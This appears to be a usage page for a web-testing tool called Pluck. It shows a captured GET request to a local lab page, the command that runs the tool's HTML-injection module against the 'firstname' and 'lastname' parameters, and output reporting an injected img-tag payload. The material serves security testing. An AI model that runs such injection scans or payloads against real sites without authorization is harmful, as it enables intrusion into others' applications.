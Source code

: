 # Pluck



### HTML Injection GET Request

**Obtain a request and save to a file**

```http
GET /htmli_get.php?firstname=test&lastname=test&form=submit HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8888/htmli_get.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: security_level=0; PHPSESSID=ek9npeot2sop3ubofjaeul06l2
Connection: close

```

**Execute the script**

Set the module to `html_injection` and the parameters to `firstname` and `lastname`. The application found the correct payload and print out the unique ID.


```bash
python3 pluck.py -r /tmp/req -m "html_injection" -I "query" -P "firstname,lastname"
### Testing Parameters ###
URL:  http://127.0.0.1:8888/htmli_get.php?firstname=test&lastname=test&form=submit
PATH:  /htmli_get.php?firstname=test&lastname=test&form=submit
METHOD:  GET
Proxy: 127.0.0.1:8080
Parameters To Test:  ['firstname', 'lastname']
Modules to run:  ['html_injection']
Injection POints:  ['query']
[*] Executing the HTML Injection Tester module
Library Items:  1
[!] HTML Injection found in query firstname parameter with <div><img src='http://127.0.01/?r=q4OUnZcwKrcgAaBD&d= payload! Request ID: cde8bf77-b4d2-4509-8891-67b45770a8ab
```

**Found the request in burp**

Copy the request id and filter the HTTP history in burp to obtain the proper payload.




